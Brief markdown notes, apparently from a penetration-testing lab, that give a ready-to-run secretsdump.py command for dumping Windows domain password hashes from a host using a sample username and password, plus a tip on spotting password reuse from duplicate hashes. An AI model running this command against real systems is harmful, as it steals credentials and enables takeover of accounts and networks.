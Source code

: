 # Dumping Hashes with secretsdump.py

## Simply Issue this Command

```bash
secretsdump.py marvel/fcastle:'P@$$w0rd!'@172.16.35.7
```

## To Check for Password Reuse

* look at the last part of the hash, and see if there are any duplicates

